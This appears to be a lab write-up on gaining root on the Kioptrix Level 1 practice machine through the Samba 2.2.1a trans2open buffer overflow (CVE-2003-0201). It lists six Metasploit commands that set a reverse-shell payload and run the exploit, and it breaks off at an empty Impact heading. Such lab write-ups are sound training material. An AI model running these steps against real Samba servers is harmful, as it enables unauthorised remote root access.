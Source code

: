 # Kioptrix L1: Privilege Escalation using Samba Version

## Summary:
Due to the available version of Samba in Kioptrix, an attacker after enumerate this service can escalate root privileges.

## Technical Details:
The available version of Samba found is 2.2.1a is vulnerable to a buffer overflow called **trans2open** according to this **Common Vulnerabilities and Exposure 2003-0201 [(CVE-2003-0201)](https://www.cvedetails.com/cve/CVE-2003-0201/)** 
using arbitraty code -a payload for example- it is possible to obtain root privileges. 

## Steps to reproduce using metasploit and a terminal:
1) msfconsole
2) search trans2open
3) use 1
4) set RHOSTS <ip_of_kioptrixl1>
5) set payload linux/x86/shell_reverse_tcp
6) run

## Supporting Material:

![samba_trans2open_01.png](./media/samba_trans2open_01.png?raw=true "Gaining root Privilege")

![samba_trans2open_02.png](./media/samba_trans2open_02.png?raw=true "Directory Listing")

![samba_trans2open_03.png](./media/samba_trans2open_03.png?raw=true "Accesing to mail server")

## Impact: